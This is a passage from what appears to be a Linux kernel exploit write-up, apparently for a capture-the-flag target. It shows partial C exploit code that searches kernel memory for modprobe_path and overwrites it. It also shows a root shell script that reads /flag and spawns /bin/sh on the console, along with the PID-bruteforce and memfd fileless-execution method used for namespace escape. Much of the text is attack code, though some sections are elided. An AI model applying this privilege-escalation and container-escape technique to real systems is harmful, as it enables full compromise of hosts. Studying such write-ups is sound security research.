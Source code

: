 ```c
				printf("[+] found modprobe path: '%s' @ %p (0x%016llx) by matching '%s' @ %p\n", (char*)pud_modprobe_addr, pud_modprobe_addr, memdump_info->iteration_base + (pud_modprobe_addr - pud_data_area), modprobe_path, modprobe_path);

				// ... (privesc using modprobe_path overwrite)
			}
			
			printf("[*] failed to locate modprobe. trying to find new kernel base...\n");
		}

		printf("[!] failed to find kernel code segment... TLB flush fail?\n");
		memdump_info->exploit_status = EXPLOIT_STAT_FAIL;
		exit(1);
    }
}
```

### Overwriting `modprobe_path` / namespace escape

In this part of the exploit, we overwrite the `modprobe_path` variable, and trigger it.

We overwrite `modprobe_path` to `/proc/<exploit_pid>/fd/<privesc_script_fd>`, which allows us to fileless execute it as root. The content of `privesc_script_fd` will be:

```bash
#!/bin/sh
echo -n 1 > /proc/$exploit_pid/fd/$privesc_status_fd
cat /flag >/dev/console
/bin/sh 0</dev/console 1>/dev/console 2>&1
```

Keep in mind: here we used $ for denoting variables dynamically inserted with `dprintf()`.

The exploit_pid needs to be bruteforced since we need the PID from the root PID namespace for the fd hijack. We can check if we got the right PID by making sure it writes to `privesc_status_fd`, which will be checked for a value in the exploit so it knows when to stop.

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
		// PMD write loop (through IPC)
    } else {
		// ... (setup PTE)

		// run this script instead of /sbin/modprobe
		int modprobe_script_fd = memfd_create("", MFD_CLOEXEC);
		int status_fd = memfd_create("", MFD_CLOEXEC);
		
		for (int kernel_pud_pte_index=0; kernel_pud_pte_index < 512; kernel_pud_pte_index++) {
			// ... (filter kernel start page)

			for (int i=0; i < 40; i++) {
				// ... (filter modprobe_path data)

				// ===== NEXT PHASE: privesc using modprobe_path overwrite =====

```